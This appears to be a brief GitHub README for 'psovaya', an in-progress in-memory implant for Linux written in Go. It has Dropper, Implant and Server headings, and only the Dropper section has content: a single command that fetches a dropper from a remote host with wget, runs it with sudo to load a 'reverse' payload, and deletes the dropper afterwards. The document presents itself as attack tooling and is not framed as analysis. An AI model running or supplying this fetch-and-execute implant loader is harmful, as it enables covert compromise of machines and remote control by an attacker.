 # psovaya (IN PROGRESS)
Linux In Memory Implant implemented in Golang

### Dropper

Running Dropper Example

    wget -O dropper http://192.168.1.188:8000/dropper && chmod +x dropper && sudo ./dropper http://192.168.1.188:8000/reverse psovaya && rm dropper
### Implant
### Server